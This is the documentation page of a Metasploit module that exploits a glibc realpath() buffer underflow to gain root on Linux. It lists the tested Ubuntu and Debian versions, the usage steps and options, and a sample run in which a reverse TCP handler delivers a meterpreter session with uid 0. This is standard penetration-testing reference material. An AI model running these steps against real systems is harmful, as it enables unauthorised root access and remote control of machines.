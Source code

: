 ## Description

  This module attempts to gain root privileges on Linux systems by abusing
  a vulnerability in GNU C Library (glibc) version 2.26 and prior.

  This module uses halfdog's RationalLove exploit to exploit a buffer
  underflow in glibc realpath() and create a SUID root shell. The exploit
  has offsets for glibc versions `2.23-0ubuntu9` and `2.24-11+deb9u1`.

  The target system must have unprivileged user namespaces enabled.


## Vulnerable Application

  This module has been tested successfully on:

  * Ubuntu Linux 16.04.3 (x86_64) with glibc version `2.23-0ubuntu9`
  * Debian 9.0 (x86_64) with glibc version `2.24-11+deb9u1`


## Verification Steps

  1. Start `msfconsole`
  2. Get a session
  3. `use exploit/linux/local/glibc_realpath_priv_esc`
  4. `set SESSION [SESSION]`
  5. `check`
  6. `run`
  7. You should get a new *root* session


## Options

  **SESSION**

  Which session to use, which can be viewed with `sessions`

  **WritableDir**

  A writable directory file system path. (default: `/tmp`)

  **COMPILE**

  Options: `Auto` `True` `False` (default: `Auto`)

  Whether the exploit should be live compiled with `gcc` on the target system,
  or uploaded as a pre-compiled binary.

  `Auto` will first determine if `gcc` is installed to compile live on the system,
  and fall back to uploading a pre-compiled binary.


## Scenarios

  ```
  msf5 > use exploit/linux/local/glibc_realpath_priv_esc 
  msf5 exploit(linux/local/glibc_realpath_priv_esc) > set session 1
  session => 1
  msf5 exploit(linux/local/glibc_realpath_priv_esc) > run

  [*] Started reverse TCP handler on 172.16.191.188:4444 
  [*] Writing '/tmp/.DhRxy0FQR.c' (35470 bytes) ...
  [*] Writing '/tmp/.Piya56UZVV' (207 bytes) ...
  [*] Launching exploit...
  [*] Sending stage (853256 bytes) to 172.16.191.171

  meterpreter > getuid
  Server username: uid=0, gid=0, euid=0, egid=0
  meterpreter > sysinfo
  Computer     : 172.16.191.171
  OS           : Ubuntu 16.04 (Linux 4.10.0-28-generic)
  Architecture : x64
  BuildTuple   : i486-linux-musl
  Meterpreter  : x86/linux
  ```

